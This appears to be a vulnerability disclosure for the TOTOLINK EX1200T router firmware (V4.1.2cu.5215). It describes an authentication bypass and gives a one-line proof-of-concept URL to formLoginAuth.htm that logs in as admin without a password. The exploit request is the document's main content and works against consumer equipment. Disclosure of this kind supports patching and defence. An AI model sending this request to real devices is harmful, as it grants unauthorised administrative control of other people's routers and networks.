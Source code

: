 # TOTOLINK EX1200T LOGIN BYPASS

## Vulnerability Description

PRODUCT: TOTOLINK EX1200T V4.1.2cu.5215 (latest version)

An attacker can bypass login by sending a specific request.

![image-20211021180828521](https://cdn.jsdelivr.net/gh/p1Kk/blogImg/Pictureimage-20211021180828521.png)

## PoC

```
http://[ip]/formLoginAuth.htm?authCode=1&userName=admin&goURL=home.asp&action=login
```



